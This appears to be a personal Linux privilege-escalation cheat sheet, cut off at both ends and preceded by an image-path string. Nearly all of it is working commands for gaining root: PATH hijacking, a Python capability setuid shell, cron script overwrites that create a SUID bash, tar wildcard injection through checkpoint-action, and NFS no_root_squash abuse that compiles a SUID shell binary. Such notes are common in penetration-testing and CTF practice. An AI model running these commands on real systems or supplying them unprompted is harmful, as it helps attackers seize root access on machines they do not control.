 ````
dpkg -l | grep <program>
```

## Path injection
```
echo $PATH 
find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u
# Make file identical to command, containing 'bash -p', 
# chmod, export PATH="/path/to/privEsc/:$PATH" it then run vulnerable file
lsdir badapple; echo 'bash -p' > badapple/cp
chmod +x badapple/cp
export PATH="/dev/shm/badapple/:$PATH"
./runvulnbin
```

## Capabilities
```
getcap -r / 2>/dev/null
/usr/bin/python[ver] -c 'import os; os.setuid(0);os.system("/bin/bash")'
```

## Cron related 
```
cat /etc/crontab
ls -la [anyfiles] for permissions
cat [anyfiles] for wildcards in scripting
crontab -l # per-user user crontab!
```
### Cron Path
#### PATH variable of files
```
echo 'cp /bin/bash /tmp/bash; chmod +xs /tmp/bash' > /home/user/privescCron
chmod +x /home/user/privescCron
/tmp/bash -p
```
### Cron Wildcards
#### Either 1. use native binaries OR 2. msfvenom reverse shell
```
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/privescCron # Only 1st
touch /home/user/--checkpoint=1 # BOTH require this
touch /home/user/--checkpoint-action=exec=sh\ runme.sh #..=exec=shell.elf
/tmp/bash -p # Only 1st
```
## Cron File Permissions 
```
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> /usr/local/bin/privescCron
/tmp/bash -p
```
## Services
###  Find services running as root ath are exploitable if no password is set!
```
ps -aux | grep root
```

## NFS root squshing - found ls -la /etc/exports ?
Find a " no_root_squash "
AttackBox:
```
showmount -e [ip]
mkdir /tmp/nameofmount
mount -o rw,vers=2 [ip]:/tmp!ORwhereEXPORT /tmp/nameofmount 
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0;}' > /tmp/nameofmount/x.c
gcc /tmp/nameofmount/x.c -o /tmp/nameofmount/x
chmod +s /tmp/nameofmount/x
```
LinuxBox:
````